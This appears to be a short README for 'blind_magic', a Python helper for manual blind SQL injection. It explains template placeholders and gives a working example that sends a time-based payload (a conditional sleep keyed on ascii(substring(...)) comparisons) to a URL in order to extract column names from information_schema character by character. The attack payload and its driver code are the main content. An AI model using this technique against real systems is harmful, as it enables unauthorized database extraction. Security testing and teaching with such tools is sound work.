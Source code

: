 # blind_magic 0.1.2  
Manual Blind SQL Injection  
  
Some trick:  
I supply to you 5 loop variables l1 to l5 {l1} {l2} {l3} {l4} {l5}  
  
Blind query statament:  
{CONDITION_QUERY}  
{QUERY}  
{OPERATOR}  
{CHAR}  
  
example:  
b = Blind_magic()
b.l(1,0,0,0,0,10,3,0,0,0)  
b.url = "http://10.0.42.224/?q="  
b.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"  
b.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"  
b.query = "Select column_name from information_schema.columns where table_name='staffs' limit {l2},1"  
b.run()  
print b.result   
